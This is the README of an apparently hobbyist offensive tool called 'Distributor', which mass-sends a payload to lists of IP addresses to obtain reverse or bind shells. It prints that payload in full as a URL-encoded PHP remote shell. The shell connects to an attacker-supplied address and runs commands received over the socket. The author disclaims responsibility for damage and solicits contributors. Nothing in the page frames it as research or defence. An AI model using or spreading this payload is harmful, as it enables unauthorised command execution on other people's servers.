 ## Welcome to Distributor Home Page

Distributor is a Tool that sends Payload to multiple IP's (in a list) or single IP u input. The Payload will create an answer with given commands for a Reverse- / Bind Shell.

### Note

Im not responsible for any Damage you'll make!

```markdown
* The Payload Looks like this ==> `%3c%3f%70%68%70%20%24%61%64%64%72%3d%24%5f%52%45%51%55%45%53%54%5b%27%61%64%64%72%27%5d%3b%24%70%6f%72%74%3d%24%5f%52%45%51%55%45%53%54%5b%27%70%6f%72%74%27%5d%3b%69%66%20%28%21%28%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%24%61%64%64%72%2c%24%70%6f%72%74%29%29%29%64%69%65%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%73%6f%63%6b%29%29%20%20%7b%24%63%6d%64%20%20%3d%20%66%67%65%74%73%28%24%73%6f%63%6b%29%3b%24%70%69%70%65%20%3d%20%70%6f%70%65%6e%28%24%63%6d%64%2c%27%72%27%29%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%70%69%70%65%29%29%66%77%72%69%74%65%20%28%24%73%6f%63%6b%2c%20%66%67%65%74%73%28%24%70%69%70%65%29%29%3b%70%63%6c%6f%73%65%28%24%70%69%70%65%29%3b%7d%66%63%6c%6f%73%65%28%24%73%6f%63%6b%29%3b%3f%3e`

Bevore u look for other tools because Distributor hasn't enough feautures, just Remember:
1. This tool is in developing. For ideas etc. join my DC https://discord.gg/QCY6CuajqK.
2. It will be one of the best payloaders ever!
3. You can help us developing and more.
```

Fore more details dm me : ASM_Royal#9532

### A small Showcase

![unknown](https://user-images.githubusercontent.com/89786570/180613217-ce41f9ec-b2b5-440b-a181-c25701de1655.png)

![unknown1](https://user-images.githubusercontent.com/89786570/180613221-552e9fd6-a57c-4327-acb3-fd175fbafecf.png)
